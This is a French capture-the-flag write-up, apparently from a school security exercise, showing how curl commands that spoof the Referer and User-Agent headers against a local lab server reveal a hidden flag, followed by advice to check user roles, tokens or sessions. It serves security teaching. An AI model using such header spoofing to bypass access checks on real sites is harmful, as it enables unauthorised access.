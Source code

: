 # referer et user-agent :

## Trouver la faille :

En cliquant sur le copyright en bas de page, on arrive sur une page (`I'm an Albatros !`).
En inspectant le code source de la page, on trouve deux informations importantes :

- `You must cumming from : "https://www.nsa.gov/" to go to the next step`
- `Let's use this browser : "ft_bornToSec". It will help you a lot.`

On comprend alors qu'il faut change l'origine et le user-agent de notre navigateur. Pour plus de simplicité, on passe directement par CURL en récupérant les deux pages (celle d'origine et celle avec les informations modifiées) :

```
curl http://192.168.1.11/?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c > albatros_default

curl -A ft_bornToSec --referer https://www.nsa.gov/ http://192.168.1.11/?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c > albatros
```

On fait alors un diff sur les deux fichiers :
`diff albatros albatros_default`

On obtiens notre premier flag ! 🎉

```
< <center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
---
> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```

```
The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## S'en prémunir :

Cette faille permet de faire croire au serveur que l'on vient d'une adresse en particulier et/ou d'un navigateur spécifique. Cela permet de leurrer le serveur sur son utilisateur.

Pour s'en prémunir:

** Vérifier le role de l'utilisateur**

En effet, au travers des roles définis, des tokens ou des sessions il est facile d'identifier si un utilisateur a accès ou non à une page.
